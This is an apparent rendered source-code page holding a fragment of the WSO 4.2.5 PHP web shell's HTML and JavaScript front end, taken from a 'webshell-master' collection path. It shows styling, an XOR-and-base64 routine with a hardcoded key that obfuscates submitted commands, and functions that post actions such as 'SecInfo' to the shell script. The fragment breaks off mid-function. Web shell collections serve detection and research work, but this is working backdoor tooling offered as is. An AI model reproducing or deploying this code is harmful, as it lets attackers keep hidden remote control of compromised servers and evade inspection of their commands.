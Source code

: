 		#toolsTbl	{text-align:center;}
		#fak 		{background:none;}
		#fak td 	{padding:5px 0 0 0;}
		iframe		{border:1px solid #060a10;}
		.toolsInp	{width:300px}
		.main th	{text-align:left;background-color:#060a10;}
		.main tr:hover{background-color:#354252;}
		.main td, th{vertical-align:middle;}
		input[type='submit']{background-color:#2E6E9C;}
		input[type='button']{background-color:#2E6E9C;}
		input[type='submit']:hover{background-color:#56AD15;}
		input[type='button']:hover{background-color:#56AD15;}
		.l1			{background-color:#202832;}
		pre			{font:9pt Courier New;}
	</style>
	<script>
	    var c_ = '/var/www/html/webshell-master/php/wso/';
	    var a_ = 'SecInfo'
	    var charset_ = 'UTF-8';
	    var p1_ = '';
	    var p2_ = '';
	    var p3_ = '';
	    var d = document;
		
		function encrypt(str,pwd){if(pwd==null||pwd.length<=0){return null;}str=base64_encode(str);pwd=base64_encode(pwd);var enc_chr='';var enc_str='';var i=0;while(i<str.length){for(var j=0;j<pwd.length;j++){enc_chr=str.charCodeAt(i)^pwd.charCodeAt(j);enc_str+=String.fromCharCode(enc_chr);i++;if(i>=str.length)break;}}return base64_encode(enc_str);}
		function utf8_encode(argString){var string=(argString+'');var utftext='',start,end,stringl=0;start=end=0;stringl=string.length;for(var n=0;n<stringl;n++){var c1=string.charCodeAt(n);var enc=null;if(c1<128){end++;}else if(c1>127&&c1<2048){enc=String.fromCharCode((c1>>6)|192)+String.fromCharCode((c1&63)|128);}else{enc=String.fromCharCode((c1>>12)|224)+String.fromCharCode(((c1>>6)&63)|128)+String.fromCharCode((c1&63)|128);}if(enc!==null){if(end>start){utftext+=string.slice(start,end);}utftext+=enc;start=end=n+1;}}if(end>start){utftext+=string.slice(start,stringl);}return utftext;}
		function base64_encode(data){var b64 = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/=';var o1,o2,o3,h1,h2,h3,h4,bits,i=0,ac=0,enc='',tmp_arr=[];if (!data){return data;}data=utf8_encode(data+'');do{o1=data.charCodeAt(i++);o2=data.charCodeAt(i++);o3=data.charCodeAt(i++);bits=o1<<16|o2<<8|o3;h1=bits>>18&0x3f;h2=bits>>12&0x3f;h3=bits>>6&0x3f;h4=bits&0x3f;tmp_arr[ac++]=b64.charAt(h1)+b64.charAt(h2)+b64.charAt(h3)+b64.charAt(h4);}while(i<data.length);enc=tmp_arr.join('');switch (data.length%3){case 1:enc=enc.slice(0,-2)+'==';break;case 2:enc=enc.slice(0,-1)+'=';break;}return enc;}
		function set(a,c,p1,p2,p3,charset) {
			if(a!=null)d.mf.a.value=a;else d.mf.a.value=a_;
			if(c!=null)d.mf.c.value=c;else d.mf.c.value=c_;
			if(p1!=null)d.mf.p1.value=p1;else d.mf.p1.value=p1_;
			if(p2!=null)d.mf.p2.value=p2;else d.mf.p2.value=p2_;
			if(p3!=null)d.mf.p3.value=p3;else d.mf.p3.value=p3_;
			d.mf.a.value = encrypt(d.mf.a.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.c.value = encrypt(d.mf.c.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p1.value = encrypt(d.mf.p1.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p2.value = encrypt(d.mf.p2.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			d.mf.p3.value = encrypt(d.mf.p3.value,'d69aa478a72ecd3a99c77af6fcf6b917');
			if(charset!=null)d.mf.charset.value=charset;else d.mf.charset.value=charset_;
		}
		function g(a,c,p1,p2,p3,charset) {
			set(a,c,p1,p2,p3,charset);
			d.mf.submit();
		}
		function a(a,c,p1,p2,p3,charset) {
			set(a,c,p1,p2,p3,charset);
			var params = 'ajax=true';
			for(i=0;i<d.mf.elements.length;i++)
				params += '&'+d.mf.elements[i].name+'='+encodeURIComponent(d.mf.elements[i].value);
			sr('/webshell-master/php/wso/wso-4.2.5.php', params);